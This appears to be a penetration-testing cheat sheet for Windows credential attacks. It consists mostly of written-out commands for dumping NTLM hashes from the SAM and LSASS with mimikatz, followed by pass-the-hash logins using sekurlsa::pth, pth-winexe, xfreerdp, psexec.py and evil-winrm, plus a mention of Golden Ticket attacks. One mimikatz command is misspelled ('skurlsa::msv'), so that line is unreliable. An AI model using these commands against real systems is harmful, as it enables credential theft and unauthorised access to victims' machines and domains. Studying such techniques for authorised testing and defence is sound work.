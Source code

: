 ### [-] Dumping hashes Using mimikatz

### [-] Dump hashes from Local SAM

- This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

```powershell
cmd> ./mimikatz.exe
mimikatz> privilege::debug
mimikatz> token::elevate # elevate security token from high integrity to system integrity
mimikatz> lsadump::sam

```

### [-] Dump hashes from **LSASS**

This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

```bash
cmd> ./mimikatz.exe
mimikatz> privilege::debug
mimikatz> token::elevate # elevate security token from high integrity to system integrity
mimikatz> skurlsa::msv
```

```powershell
mimikatz> sekurlsa::pth /user:Administrator /domain:localhost /ntlm:**dumped_ntlm**
```

- or you can do Golden Ticket attack (preferable)

## [+] `pth-winexe`

```bash
pth-winexe -U $domain/$username**%**$hash //$ip cmd.exe
```

## [+] `XfreeRDP`

```bash
xfreerdp /v:$VictimIP /u:$domain\\$username /pth:$NTLM_hash
```

## [+] `Psexec` (Linux Version)

```bash
psexec.py -hashes $NTLM_hash $domain/$username@$Victim_IP
```

## [+] `evil-winrm`

```bash
evil-winrm -i $Victim_IP -u $username -H $NTLM_hash
```

---